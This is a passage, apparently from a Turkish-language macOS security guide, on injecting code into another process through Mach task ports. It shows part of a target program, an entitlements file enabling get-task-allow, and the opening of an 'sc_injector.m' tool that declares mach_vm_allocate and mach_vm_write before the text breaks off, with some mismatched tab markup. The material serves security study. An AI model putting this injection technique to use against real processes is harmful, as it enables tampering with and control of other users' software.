 ```objectivec
[NSThread sleepForTimeInterval:5];

performMathOperations();  // Silent action

[NSThread sleepForTimeInterval:5];
}
}
return 0;
}
```
{% endtab %}

{% tab title="entitlements.plist" %} 

## İzinler.plist

Bu dosya, uygulamanın sistem kaynaklarına erişim düzeyini belirleyen izinlerin listesini içerir. Bu izinler, uygulamanın hangi özelliklere erişebileceğini ve hangi işlemleri gerçekleştirebileceğini belirler. İzinler.plist dosyası, uygulamanın güvenlik ve ayrıcalık yükseltme süreçlerinde önemli bir rol oynar.

{% endtab %}
```xml
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
<key>com.apple.security.get-task-allow</key>
<true/>
</dict>
</plist>
```
{% endtab %}
{% endtabs %}

Önceki programı **derleyin** ve aynı kullanıcıyla kod enjekte etmek için **yetkileri** ekleyin (aksi halde **sudo** kullanmanız gerekecektir).

<details>

<summary>sc_injector.m</summary>
```objectivec
// gcc -framework Foundation -framework Appkit sc_injector.m -o sc_injector
// Based on https://gist.github.com/knightsc/45edfc4903a9d2fa9f5905f60b02ce5a?permalink_comment_id=2981669
// and on https://newosxbook.com/src.jl?tree=listings&file=inject.c


#import <Foundation/Foundation.h>
#import <AppKit/AppKit.h>
#include <mach/mach_vm.h>
#include <sys/sysctl.h>


#ifdef __arm64__

kern_return_t mach_vm_allocate
(
vm_map_t target,
mach_vm_address_t *address,
mach_vm_size_t size,
int flags
);

kern_return_t mach_vm_write
(
```